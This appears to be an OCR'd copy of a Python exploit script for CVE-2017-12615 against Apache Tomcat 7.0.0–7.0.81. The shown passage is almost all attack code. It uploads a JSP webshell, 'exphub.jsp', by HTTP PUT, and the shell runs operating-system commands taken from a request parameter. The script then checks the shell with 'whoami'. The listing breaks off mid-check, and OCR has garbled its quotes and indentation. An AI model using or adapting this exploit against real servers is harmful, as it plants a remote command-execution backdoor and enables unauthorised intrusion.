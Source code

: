 ```
print(’+ EXP: python cve-2017-12615_cmd.py [http://1.1.1.1:8080](http://1.1.1.1:8080) id +’)

print(’+ VER: Apache Tomcat 7.0.0 - 7.0.81                        +’)

print(‘±---------------------------------------------------------+’)

print(’+ DES: 临时创建 Webshell exphub.jsp                        +’)

print(‘±---------------------------------------------------------+’)

sys.exit()

url = sys.argv[1]

payload_url = url + “/exphub.jsp/”

payload_header = {“User-Agent”:“Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36”}

def payload_command (command_in):

html_escape_table = {

“&”: “&amp;”,

‘"’: “&quot;”,

“’”: “&apos;”,

“>”: “&gt;”,

“<”: “&lt;”,

}

command_filtered = “<string>”+"".join(html_escape_table.get(c, c) for c in command_in)+"</string>"

payload_1 = command_filtered

return payload_1

def creat_command_interface():

payload_init = “<%java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter(“cmd”)).getInputStream();” 

“int a = -1;” 

“byte[] b = new byte[2048];” 

“while((a=in.read(b))!=-1){out.println(new String(b));}” 

“%>”

result = requests.put(payload_url, headers=payload_header, data=payload_init)

time.sleep(5)

payload = {“cmd”:“whoami”}

verify_response = requests.get(payload_url[:-1], headers=payload_header, params=payload)

if verify_response.status_code == 200:
```